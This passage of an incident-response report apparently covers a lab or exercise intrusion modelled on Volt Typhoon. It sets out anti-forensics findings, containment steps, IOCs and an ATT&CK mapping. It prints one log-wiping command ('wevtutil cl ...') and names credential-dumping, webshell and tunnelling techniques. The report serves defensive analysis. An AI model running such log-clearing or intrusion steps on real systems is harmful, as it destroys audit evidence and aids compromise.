

### 2.11 Defense Evasion — Sustained Anti-Forensics
**MITRE ATT&CK:** `T1070` Indicator Removal, `T1112` Modify Registry, `T1562.004` Impair Defenses: Disable or Modify System Firewall, `T1070.001` Indicator Removal: Clear Windows Event Logs

Cleanup activity ran throughout the operation rather than as a single closing step. File, script, and log deletions occurred across 3/21–3/28, and the registry's "Most Recently Used" key was cleared **three separate times** on three different days — consistent with a repeated, scripted habit rather than a one-off action. Separately, and more seriously, a firewall rule blocking port 8080 was removed on 3/22 — disabling a security control rather than simply erasing evidence.



The most significant defense-evasion action came late in the operation. Across 3/25–3/29, the attacker repeatedly queried the Windows Security event log — checking successful and failed logon events (including a self-audit against their *own* IP for the brute-force failures documented in 2.2), and Kerberos service-ticket events tied to a SQL service account (`MSSQLSvc`), which is circumstantial but strong evidence of either performing or auditing a Kerberoasting attempt against that account.



That self-audit was followed, 69 minutes before the command-and-control tunnel in 2.10, by a single comprehensive action:

```
wevtutil cl Application Security Setup System
```

The fully expanded event confirms `UserId=CTRL-ACC\dean-admin` — directly tying this action, and by extension every other PowerShell-based action in this report, to the same compromised identity used across the ADSS and WMIC activity documented earlier.



The sequence — audit exposure, wipe four event logs, establish a C2 tunnel less than 90 minutes later — reads as deliberate operational discipline, and is one of the strongest single behavioral indicators in this investigation that this was a careful, aware operator rather than a scripted playbook running unattended.

### 2.12 Exfiltration Status — Staged, Not Confirmed
**MITRE ATT&CK:** not applicable — evidentiary limitation, not adversary tradecraft

Searching for `webserver-01` and `cl64.gif` independently across the full dataset returned only the same staging commands already documented in 2.5 — no separate web-access or HTTP log source exists in this environment to confirm the disguised archive was ever actually downloaded.




Stated plainly: this investigation supports that the attacker **staged** a disguised, password-protected archive of the domain's credential database on a public-facing web server. It does not, on the available evidence, confirm that the file was **exfiltrated**. Treating the two as equivalent would overstate what the data supports.

### Attack Chain at a Glance



*Red nodes mark the highest-severity actions (initial compromise, domain credential dump, C2 establishment); the amber node marks the sustained anti-forensics activity that ran in parallel throughout the operation, not just at the end.*

## 3. Containment, Eradication & Recovery

- **Reset credentials domain-wide**, not only for the nine known-compromised accounts — the NTDS.dit dump exposed every password hash in the domain.
- **Rotate the KRBTGT account password twice**, standard practice following any suspected domain credential database exposure, to invalidate any forged Kerberos tickets.
- **Disable and investigate** the `voltyp-admin` account and the `"Backup"` scheduled task on all affected hosts.
- **Remove the webshell** (`AuditReport.jspx`) from `server-02`'s web root, and audit `webserver-01` for the same or similar artifacts.
- **Block outbound traffic** to `voltyp.com` and `10.2.30.1` at the perimeter.
- **Restore Windows Event Logs from backup/forwarder copies** where available, to close the visibility gap created by the `wevtutil cl` action.
- **Re-enable and review** the removed firewall rule blocking port 8080.
- **Harden the self-service account-management portal** against brute force — account lockout thresholds, rate limiting, and alerting on repeated unlock failures.

## 4. Post-Incident Activity

- **Submit IOCs** (domain, external IP, file hashes if recoverable, exposed credentials) to whatever threat intel sharing the organization participates in.
- **Audit newly-provisioned accounts more closely for their first 24–48 hours** — three of the nine compromised accounts were hijacked within hours of legitimate onboarding, which is a repeatable targeting pattern worth watching for specifically, not just a one-time coincidence.
- **Review command-line logging coverage org-wide** — it is the single reason this investigation was possible at all, surfacing both the Base64-obfuscated Mimikatz download and two plaintext exposed passwords. Confirm it's enabled everywhere, not just on the hosts examined here.

### Lessons Learned
- An IP address with a high event count is not the same thing as a malicious IP address — a full baseline sweep across the whole environment was necessary to tell the difference between "top of a normal distribution" and "genuine outlier," and skipping that step nearly led to the wrong four hosts being reported as the attacker's infrastructure.
- Disguised filenames (`cisco-up.7z`, `cl64.gif`, `AuditReport.jspx`, `faudit`, a scheduled task called `"Backup"`) were a consistent signature across this actor's entire operation — recognizing the *pattern* of disguise, not just each individual instance, is what ties isolated findings into one coherent narrative.
- Multiple persistence mechanisms operating in parallel (an attacker-created account, a hijacked-account population, a scheduled task, and a webshell) mean a partial remediation — resetting passwords alone, for instance — would not have fully evicted this actor.
- Reaching the edge of what the available telemetry can support (the LSASS dump's source, confirmed exfiltration) and stating that plainly is part of doing the analysis correctly, not a gap in the investigation.

---

## Indicators of Compromise (IOCs)

| Type | Value | Role / Verdict |
|---|---|---|
| Compromised account (initial access) | `dean-admin` | Brute-forced; used as the primary operator identity throughout |
| Attacker-created account | `voltyp-admin` | Rogue admin account, fully enrolled with MFA |
| Hijacked accounts | `david-sales`, `westin-engineering`, `juan-sales`, `bill-exec`, `sophie-engineering`, `celin-sales`, `june-exec`, `claire-exec`, `nigel-engineering` | Pre-existing accounts unlocked/reset by the attacker |
| External domain | `voltyp.com` | Hosted `mimikatz.exe`; attacker-controlled infrastructure |
| External IP | `10.2.30.1` | Command-and-control tunnel destination |
| Malicious tool | `mimikatz.exe` | Downloaded to `C:\Temp\db2\mimikatz.exe` |
| Staged/disguised archive | `cisco-up.7z` → renamed `cl64.gif` | Password-protected archive of `NTDS.dit`, staged on `webserver-01` |
| Webshell | `AuditReport.jspx` (originally decoded as `iisstart.aspx` from a disguised `ntuser.ini`) | Deployed to `server-02` web root |
| Persistence mechanism | Scheduled task `"Backup"` | Disguised host-level persistence, registered 3/20 |
| Staging directory | `C:\Windows\Temp\faudit\` | Financial data collection, local-only |
| Exposed credential | `dean-admin` / `uNcr4cK4b1e` | Plaintext password in `netsh` command line |
| Exposed credential | Archive password `d5ag0nm@5t3r` | Plaintext password in `7z` command line |

## MITRE ATT&CK Mapping (Summary)

Each technique is tagged inline in section 2 next to the specific evidence that confirms it — this table is a consolidated view, not the primary source.

| Technique ID | Technique Name | Evidence | Section |
|---|---|---|---|
| T1082 / T1016 | System Information / Network Configuration Discovery | Early WMIC enumeration; pre-action recon pattern | 2.1, 2.5, 2.10 |
| T1110 | Brute Force | Four failed `dean-admin` unlock attempts before success | 2.2 |
| T1136.001 | Create Account: Local Account | `voltyp-admin` created and fully enrolled | 2.3 |
| T1098 | Account Manipulation | Eight pre-existing accounts hijacked | 2.3 |
| T1556.006 | Modify Authentication Process: MFA | MFA/security questions re-enrolled on hijacked accounts | 2.3 |
| T1047 | Windows Management Instrumentation | Broad execution-capability sweep; full attack chain | 2.4, 2.5 |
| T1003.003 | OS Credential Dumping: NTDS | `ntdsutil` export of the AD database | 2.5 |
| T1074.002 / T1560.001 | Data Staged (Remote) / Archive via Utility | NTDS.dit copied, archived, password-protected | 2.5 |
| T1036.008 / T1070.004 | Masquerade File Type / File Deletion | Archive renamed to `cl64.gif`; temp dir removed | 2.5 |
| T1027.010 / T1105 | Command Obfuscation / Ingress Tool Transfer | Base64-encoded download of Mimikatz | 2.6 |
| T1003.001 | OS Credential Dumping: LSASS Memory | Mimikatz parsing an existing LSASS dump | 2.6 |
| T1053.005 | Scheduled Task | `"Backup"` task registered ahead of main operation | 2.7 |
| T1012 / T1518 | Query Registry / Software Discovery | OpenSSH/RealVNC checks; PuTTY session harvest | 2.7 |
| T1140 / T1036 | Deobfuscate/Decode Files / Masquerading | `certutil`-decoded webshell disguised as `ntuser.ini` | 2.8 |
| T1505.003 / T1021.002 | Web Shell / SMB Admin Shares | Webshell copied to `server-02` | 2.8 |
| T1005 / T1074.001 | Data from Local System / Local Data Staging | Three years of financial records collected | 2.9 |
| T1090 / T1572 | Proxy / Protocol Tunneling | `netsh portproxy` tunnel to `10.2.30.1` | 2.10 |
| T1070 / T1112 | Indicator Removal / Modify Registry | Repeated file/script/registry cleanup | 2.11 |
| T1562.004 | Impair Defenses: Disable Firewall | Firewall rule blocking port 8080 removed | 2.11 |
| T1558.003 | Kerberoasting (circumstantial) | EventID 4769 queries against an `MSSQLSvc` SPN | 2.11 |
| T1070.001 | Indicator Removal: Clear Windows Event Logs | Four event logs cleared before the C2 tunnel | 2.11 |

## Scope & Impact

- 9 user accounts compromised (1 created, 8 hijacked) across sales, engineering, and executive departments
- 2 IIS-capable servers (`webserver-01`, `server-02`) hosting attacker-planted persistence or staged data
- 3 distinct persistence mechanisms established in parallel (rogue account, scheduled task, webshell)
- 1 full Active Directory credential database (`NTDS.dit`) dumped — a domain-wide exposure, not limited to the nine known-compromised accounts
- 3 years of financial records collected (staged locally; not confirmed moved toward exfiltration)
- 1 external domain and 1 external IP identified as confirmed attacker infrastructure
- Attacker exposed two plaintext credentials via command-line arguments — a meaningful OPSEC failure that materially aided this investigation

## Verdict

Confirmed, multi-stage, single-actor intrusion consistent with the operational discipline described in Volt Typhoon reporting: methodical reconnaissance ahead of nearly every major action, living-off-the-land technique use (`wmic`, `certutil`, `netsh`) rather than novel malware, layered and redundant persistence, and sustained anti-forensics throughout rather than only at the end. The credential-theft objective (NTDS.dit) reached active exfiltration staging; actual exfiltration could not be confirmed from available telemetry and is reported as staged rather than completed. The financial-data-theft objective reached collection only. An initial IP-based attribution approach was tested, found flawed, and corrected using a full baseline sweep — that correction is included as part of this report's analysis, not omitted.
